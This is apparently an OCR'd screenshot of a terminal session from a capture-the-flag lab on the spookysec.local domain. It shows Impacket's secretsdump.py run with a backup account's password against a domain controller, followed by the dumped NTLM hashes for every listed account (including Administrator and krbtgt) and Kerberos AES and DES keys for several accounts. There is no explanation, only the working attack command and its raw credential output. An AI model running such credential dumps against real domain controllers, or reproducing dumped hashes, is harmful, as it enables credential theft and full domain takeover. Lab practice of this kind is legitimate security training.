 ```
❯ python3 /usr/share/doc/python3-impacket/examples/secretsdump.py spookysec.local/backup:backup2517860@10.10.28.119
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:88dbcf1ea5935c4939535b559a31c6bb:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
```